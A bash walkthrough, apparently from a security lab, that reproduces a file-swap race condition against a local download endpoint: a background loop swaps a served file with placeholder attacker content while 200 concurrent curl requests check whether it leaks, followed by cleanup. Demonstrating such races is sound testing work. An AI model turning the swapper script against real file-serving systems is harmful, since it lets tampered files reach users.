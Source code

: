 ## 1) Create the storage and test files 

```bash
STORAGE="/tmp/secure-downloads-demo"
rm -rf "$STORAGE"                # remove any broken state from previous attempts
mkdir -p "$STORAGE"
# create safe / attack files and the deployed file
echo "NORMAL_CONTENT" > "$STORAGE/target-real"
echo "ATTACKER_CONTENT" > "$STORAGE/target-attack"
cp "$STORAGE/target-real" "$STORAGE/target.txt"
# show them
ls -la "$STORAGE"
```

You should see `target-real`, `target-attack` and `target.txt` listed.

---

## 2) Robust swapper script that *recreates* missing attack file automatically

This swapper will atomically replace `target.txt` with attacker content (via `mv`), and if `target-attack` is ever missing it will recreate it so `mv` never fails.

Save and run it:

```bash
cat > /tmp/swap_contents.sh <<'BASH'
#!/usr/bin/env bash
set -euo pipefail

STORAGE="/tmp/secure-downloads-demo"
TARGET="$STORAGE/target.txt"
REAL="$STORAGE/target-real"
ATTACK="$STORAGE/target-attack"
TMP_ATTACK="$STORAGE/._attack_tmp"

# ensure attack file exists at start
if [ ! -f "$ATTACK" ]; then
  echo "ATTACKER_CONTENT" > "$ATTACK"
fi

while true; do
  # ensure attacker file exists (recreate if needed)
  if [ ! -f "$ATTACK" ]; then
    echo "recreating missing attack file"
    echo "ATTACKER_CONTENT" > "$ATTACK"
  fi

  # atomically move attack into place (mv across same FS is atomic)
  mv -f "$ATTACK" "$TARGET"

  # small window
  sleep 0.02

  # restore normal content (atomic replace)
  cp -f "$REAL" "$TARGET"

  # tiny pause to yield CPU
  sleep 0.02
done
BASH

chmod +x /tmp/swap_contents.sh
```

Start it in the background (and capture logs):

```bash
nohup bash /tmp/swap_contents.sh > /tmp/swapper.log 2>&1 &
echo "swapper started, PID: $!"
sleep 0.2
tail -n 20 /tmp/swapper.log || true
```

---

## 3) Verify the storage contents while swapper runs

(You should see `target.txt` toggling between contents if you `cat` repeatedly.)

```bash
# show file metadata and a quick peek
ls -la /tmp/secure-downloads-demo
head -n 5 /tmp/secure-downloads-demo/target.txt || true
```

---

## 4) Run the concurrent download tester (increase attempts if needed)

Run this in another terminal (or same — it's fine). It fires many concurrent requests and then searches results for `ATTACKER_CONTENT`.

```bash
# spawn many concurrent downloads
for i in $(seq 1 200); do
  curl -s "http://localhost:5007/api/files/download/target.txt" -o "/tmp/result_$i.txt" &
done
wait

# check if any response contained the attacker content
if grep -q "ATTACKER_CONTENT" /tmp/result_*.txt 2>/dev/null; then
  echo "=== RACE REPRODUCED: attack content observed in at least one response ==="
  grep -H "ATTACKER_CONTENT" /tmp/result_*.txt | sed -n '1,20p'
else
  echo "No attacker content found. Try increasing concurrency or the controller delay (demo-only)."
fi
```

If you see `RACE REPRODUCED`, the vulnerable controller sometimes served the swapped-in attacker content.

---

## 5) Cleanup when done

```bash
# stop swapper
pkill -f swap_contents.sh || true
# remove test outputs
rm -f /tmp/result_*.txt /tmp/swapper.log /tmp/swap_contents.sh || true
# restore safe file
cp -f /tmp/secure-downloads-demo/target-real /tmp/secure-downloads-demo/target.txt
ls -la /tmp/secure-downloads-demo
```

